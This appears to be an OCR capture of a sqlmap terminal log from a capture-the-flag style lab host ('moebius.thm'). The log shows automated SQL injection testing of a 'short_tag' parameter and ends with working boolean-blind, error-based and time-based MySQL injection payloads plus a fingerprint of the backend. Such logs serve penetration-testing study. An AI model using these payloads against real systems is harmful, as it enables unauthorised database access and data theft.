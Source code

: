     [12:09:27] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'                                                                                 
    [12:09:27] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
    [12:09:27] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'                                                                                 
    [12:09:27] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
    [12:09:27] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'                                                                                       
    [12:09:27] [INFO] GET parameter 'short_tag' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable                                                       
    [12:09:27] [INFO] testing 'MySQL inline queries'
    [12:09:27] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
    [12:09:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
    [12:09:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
    [12:09:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
    [12:09:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
    [12:09:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
    [12:09:29] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [12:09:39] [INFO] GET parameter 'short_tag' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable                                                                           
    [12:09:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [12:09:39] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
    [12:09:39] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [12:09:43] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
    [12:09:46] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
    [12:09:49] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
    [12:09:53] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
    [12:09:56] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
    [12:10:00] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
    [12:10:03] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
    [12:10:06] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
    [12:10:10] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
    [12:10:13] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval                                  
    GET parameter 'short_tag' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
    sqlmap identified the following injection point(s) with a total of 288 HTTP(s) requests:
    ---
    Parameter: short_tag (GET)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
        Payload: short_tag=-3586' OR 5137=5137#
    
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: short_tag=' AND (SELECT 5955 FROM(SELECT COUNT(*),CONCAT(0x716b627671,(SELECT (ELT(5955=5955,1))),0x71786b7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- rctT
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: short_tag=' AND (SELECT 5502 FROM (SELECT(SLEEP(5)))nEsN)-- JLHV
    ---
    [12:14:46] [INFO] the back-end DBMS is MySQL
    [12:14:46] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
    web server operating system: Linux Debian
    web application technology: PHP 8.4.4, Apache 2.4.62
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)
    [12:14:48] [INFO] fetched data logged to text files under '/home/neo/.local/share/sqlmap/output/moebius.thm'                                                                                        
    